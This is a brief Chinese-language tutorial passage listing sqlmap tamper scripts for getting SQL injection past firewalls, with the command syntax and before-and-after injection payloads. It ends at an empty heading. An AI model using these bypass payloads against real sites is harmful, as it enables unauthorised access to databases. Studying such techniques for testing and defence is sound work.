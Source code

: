 # SQLMap自带绕过脚本tamper

sqlmap在默认的的情况下除了使用char()函数防止出现单引号，没有对注入的数据进行修改，还可以使用–tamper参数对数据做修改来绕过waf等设备。

## 命令使用方法

```bash
sqlmap -u [url] --tamper [模块名]
```

sqlmap的绕过脚本在目录`/sqlmap/tamper`下

可以使用`--identify-waf`对一些网站是否有安全防护进行试探

## 常用tamper脚本

### **apostrophemask.py**

适用数据库：ALL
作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

### base64encode.py

适用数据库：ALL
作用：替换为base64编码
使用脚本前：`tamper("1' AND SLEEP(5)#")`
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

### multiplespaces.py

适用数据库：ALL
作用：围绕sql关键字添加多个空格
使用脚本前：`tamper('1 UNION SELECT foobar')`
使用脚本后：`1 UNION SELECT foobar`

### space2plus.py

适用数据库：ALL
作用：用加号替换空格
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT+id+FROM+users`

### nonrecursivereplacement.py

适用数据库：ALL
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
使用脚本前：`tamper('1 UNION SELECT 2--')`
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

### space2randomblank.py
